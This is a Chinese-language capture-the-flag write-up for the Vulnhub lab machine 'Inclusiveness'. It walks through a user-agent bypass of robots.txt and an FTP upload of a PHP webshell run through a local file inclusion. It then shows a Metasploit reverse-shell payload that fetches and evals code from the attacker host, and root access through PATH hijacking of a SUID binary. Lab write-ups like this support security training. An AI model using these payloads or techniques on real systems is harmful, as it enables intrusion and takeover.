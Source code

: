 ```yaml
---
layout: post
title: "Inclusiveness walkthrough"
date: 2021-10-24
author: 2hanx
toc: true
categories: [Vulnhub]
tags: []
---
```


### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机        | IP                |
| ------------- | ----------------- |
| 本机（Win10） | `192.168.174.1`   |
| Kali          | `192.168.174.128` |
| Inclusiveness | `192.168.174.144` |

### 扫描端口和版本信息

`nmap -A -p- 192.168.174.144`

```shell
┌──(root💀kali)-[~]
└─# nmap -p- -A 192.168.174.144
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-24 04:38 EDT
Nmap scan report for 192.168.174.144
Host is up (0.00035s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 0        0            4096 Oct 24 18:00 pub [NSE: writeable]
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.174.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey:
|   2048 06:1b:a3:92:83:a5:7a:15:bd:40:6e:0c:8d:98:27:7b (RSA)
|   256 cb:38:83:26:1a:9f:d3:5d:d3:fe:9b:a1:d3:bc:ab:2c (ECDSA)
|_  256 65:54:fc:2d:12:ac:e1:84:78:3e:00:23:fb:e4:c9:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
```

根据扫描结果可知靶机开启的 *ftp* 服务支持匿名登录，并且在 `/pub` 目录下具备读写权限，不过在该目录下没有任何文件，此外网页首页是 *Apache* 默认页面。信息太少，下一步我们进行目录扫描。

根据扫描结果可以发现 `/robots.txt` 返回的内容有些奇怪，内容是：

```txt
You are not a search engine! You can't read my robots.txt! 
```

意思很明显，只要将请求伪造成搜索引擎发起的即可，因此修改 **UA** 为搜索引擎标识即可，比如：`GoogleBot`。执行命令：`curl -A GoogleBot http://192.168.174.128/robots.txt`  就可以得到 `/robots.txt`里的内容：

```txt
User-agent: *
Disallow: /secret_information/
```

访问 `/secret_information` 路径发现参数 *lang* 存在 **LFI** 漏洞。

![1]({{ '/inclusiveness/1.png' | prepend: site.url }})

### Getshell

通过存在的 **LFI** 漏洞可以访问文件，又联想到我们在 `ftp `服务器上具备读写权限，因此只要将后门文件通过 `ftp` 服务上传，再利用 **LFI** 访问即可进行 RCE 获取到 webshell，详细步骤有：

1. 本地生成

   ```shell
   echo "<?php system($_GET["run"]);>" > bd.php
   ```

2. 上传后门

   ```shell
   ftp 192.168.174.144
   cd /pub
   put bd.php
   ```

3. 查看上传的文件路径

   ```url
   http://192.168.174.144/secret_information/?lang=/etc/vsftpd.conf
   ```

   找到 `anon_root`，确认上传路径是：`/var/ftp/`

4. 本地通过 `msfconsole` 管理shell

   ```shell
   use exploit/multi/script/web_delivery
   set lhost 192.168.174.128
   set target 1
   set payload php/meterpreter/reverse_tcp
   exploit
   ```

5. 执行生成的代码Getshell

   ```url
   http://192.168.174.144/secret_information/?lang=/var/ftp/pub/bd.php&run=php -d allow_url_fopen=true -r "eval(file_get_contents('http://192.168.174.128:8080/cN0CxmLJVwgLL5N', false, stream_context_create(['ssl'=>['verify_peer'=>false,'verify_peer_name'=>false]])));"
   ```

### 提权

在查看具备的 *SUID* 权限的命令时注意到可疑程序： `/home/tom/rootshell`。

```shell
msf6 exploit(multi/script/web_delivery) > sessions 1
[*] Starting interaction with 1...

meterpreter > shell
Process 1165 created.
Channel 0 created.
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@inclusiveness:/var/www/html/secret_information$ ls
ls
en.php  es.php  index.php
www-data@inclusiveness:/var/www/html/secret_information$ find / -perm -u=s -type f 2>/dev/null
<_information$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/chsh
/usr/bin/bwrap
/usr/bin/gpasswd
/usr/bin/fusermount
/usr/bin/chfn
/usr/bin/ntfs-3g
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/su
/usr/bin/umount
/usr/bin/pkexec
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/sbin/pppd
/home/tom/rootshell
```

查看源码发现该程序通过执行 `whoami` 程序的结果进行验证，因此这里存在*PATH*环境越权漏洞。

```cpp
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main() {

    printf("checking if you are tom...\n");
    FILE* f = popen("whoami", "r");

    char user[80];
    fgets(user, 80, f);

    printf("you are: %s\n", user);
    //printf("your euid is: %i\n", geteuid());

    if (strncmp(user, "tom", 3) == 0) {
        printf("access granted.\n");
        setuid(geteuid());
        execlp("sh", "sh", (char *) 0);
    }
}
```

详细操作步骤是：

1. 编写虚假的`whoami` 脚本程序

   ```shell
   cd /tmp
   echo "printf "tom"" > whoami
   chmod +x whoami
   ```

2. 添加到 *PATH* 环境里

   ```shell
   export PATH=/tmp:$PATH
   echo $PATH
   ```

3. 提权

   ```shell
   cd /home/tom
   ./rootshell
   ```

4. 拿到 flag

   ```shell
   www-data@inclusiveness:/home/tom$ ./rootshell
   ./rootshell
   checking if you are tom...
   you are: tom
   access granted.
   # id
   id
   uid=0(root) gid=33(www-data) groups=33(www-data)
   # cd /root
   cd /root
   # ls
   ls
   flag.txt
   # cat flag.txt
   cat flag.txt
   |\---------------\
   ||                |
   || UQ Cyber Squad |
   ||                |
   |\~~~~~~~~~~~~~~~\
   |
   |
   |
   |
   o
   
   flag{omg_you_did_it_YAY}
   ```

   

### 总结

1. 修改 **UA** 进行 *robots.txt* 验证绕过
2. *ftp* 文件上传 + LFI => RCE
3. *ftp* 上传文件路径通过 `/etc/vsftpd.conf` 文件查看
